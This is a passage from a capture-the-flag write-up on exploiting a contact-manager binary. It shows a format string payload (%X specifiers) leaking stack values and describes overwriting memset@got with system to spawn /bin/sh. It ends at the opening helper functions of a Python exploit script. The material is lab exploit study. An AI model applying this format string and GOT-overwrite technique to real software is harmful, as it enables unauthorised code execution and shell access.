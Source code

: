 Now, we needed a way to write to the got. Turns out there was another format string vulnerability in the description field:

```
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 1
Contact info: 
    Name: BAR1
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No: 0
    Length of description: 100
    Enter description:
        %X-%X-%X-%X-%X-%X
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 4
Contacts:
    Name: BAR1
    Length 100
    Phone #: 0
    Description: 9B24008-F77724E0-F7771FF4-0-0-FFDE40D8
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>>
```

We used the same trick as in [ekoparty's echoes binary](https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-echoes/), selecting a stack address (actually a saved stack frame pointer) which points to another stack address, which we can then use to write out an address on the stack. Finally, use that third format string argument to write anything anywhere. 

We then use the leak to determine libc's base address, add the offset for system, and finally overwrite memset@got with system. Then, once we delete an element with name `/bin/sh`, we in fact call `system('/bin/sh')` and we win.

Without further ado:

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
      buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

```